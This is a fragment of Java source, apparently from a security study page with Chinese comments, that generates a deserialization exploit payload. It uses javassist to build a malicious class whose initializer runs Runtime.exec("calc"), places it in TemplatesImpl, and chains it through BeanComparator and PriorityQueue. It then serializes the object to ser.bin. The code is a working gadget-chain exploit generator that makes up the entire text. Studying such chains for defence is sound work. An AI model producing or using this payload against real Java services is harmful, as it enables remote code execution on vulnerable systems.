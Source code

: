 ```java

        field.setAccessible(true);

        field.set(object, value);

    }

    public static void main(String[] args) throws Exception {

        // 创建恶意类，用于报错抛出调用链

        ClassPool pool = ClassPool.getDefault();

        CtClass payload = pool.makeClass("EvilClass");

        payload.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));

        payload.makeClassInitializer().setBody("new java.io.IOException().printStackTrace();");

        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");

        byte[] evilClass = payload.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_bytecodes", new byte[][]{evilClass});

        setFieldValue(templates, "_name", "test");

        setFieldValue(templates,"_tfactory", new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);

        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);

        queue.add("1");

        queue.add("1");

        setFieldValue(beanComparator, "property", "outputProperties");

        setFieldValue(queue, "queue", new Object[]{templates, templates});

        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("ser.bin"));

        out.writeObject(queue);

//        ObjectInputStream in = new ObjectInputStream(ne FileInputStream("ser.bin"));
//
//        in.readObject();

    }

}
```
